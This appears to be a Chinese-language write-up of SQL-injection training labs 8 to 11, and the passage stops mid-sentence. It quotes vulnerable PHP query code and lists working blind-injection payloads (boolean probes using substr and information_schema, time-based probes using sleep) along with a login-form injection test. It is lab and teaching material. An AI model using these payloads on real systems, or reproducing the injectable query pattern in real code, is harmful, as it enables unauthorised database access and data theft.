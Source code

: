     $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);
    if($row){
      echo 'You are in...........';
    }else{
    }
说明sql语句正确，反馈you are in。。。；语句不正确，不反馈信息。这种情况下，采用布尔盲注。

    ?id=1' order by 3--+ 确定选择了3个column
    ?id=1' and length(database())=8--+ 确定database()含8个字符
    ?id=1' and (substr((select database()) ,2,1)) = 'a' --+ 爆破出security的数据库
    ?id=1' and ((select table_name from information_schema.tables where table_schema=database() limit 0,1)) = 'a'--+ 爆破出table的名字；通过limit 0，1该为limit n，1，逐渐增加n，依次爆破出各个table的名字。

###lab9考验时间盲注###
输入'虽然能触发漏洞，但是显示看不出来

源码：

    $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);
    
    	if($row)
    	{
      	echo 'You are in...........';
      	}
    	else 
    	{
    	echo 'You are in...........';

不管输入什么，都输出you are in...., 也就是说无法发现是否有漏洞。

检测漏洞：

	?id=1' and sleep(10)--+  发现触发了漏洞

利用漏洞：
	?id=1' and length(database())=8 and if(1=1,sleep(10),null)--+ 爆破database

###lab10考验时间盲注###
和lab9类似，触发漏洞的符号由'变为"

###lab11###
界面要求输入用户名和密码
输入uname=1'&passwd=2'&submit=Submit  报错如下：

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '2' ' LIMIT 0,1' at line 1

发现注入漏洞，属于符号型

猜测源码：

    select * from users where username='uname' and password='passwd'

对照源码：
